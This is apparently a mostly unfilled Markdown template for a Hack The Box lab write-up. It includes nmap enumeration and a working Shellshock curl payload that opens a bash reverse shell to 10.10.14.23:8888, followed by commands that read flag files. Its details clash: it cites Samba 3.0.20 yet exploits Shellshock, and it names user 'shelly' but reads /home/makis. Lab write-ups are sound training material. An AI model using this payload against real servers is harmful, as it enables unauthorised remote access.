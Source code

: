 ```yaml
---
title: "HTB - Box"
author: "Anubhavsingh Sawdagur"
date: "DATE_NOW"
subject: "Markdown"
subtitle: "10.10.10."
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: false
---
```


# Box - 10.10.10.

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.
```

```bash

```

Searchsploit is used to search for a known exploit the samba version **3.0.20**

```bash

```

# Exploitation


### **Vulnerability Explanation:**


### Getting a reverse shell

The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash 
# make the server connect back to the attacker using shellshock payload with bash reverse shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.23/8888 0>&1'" "http://10.10.10.56/cgi-bin/user.sh" 
```


### User.txt

```bash
find /home -type f
```

**User.txt** can be found in the home directory of **shelly**.

```bash
cat /home/makis/user.txt
```

> user.txt flag: ``

## Privilege Escalation to Root

### Root.txt

### **Vulnerability Explanation:**

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

> root.txt flag: ``

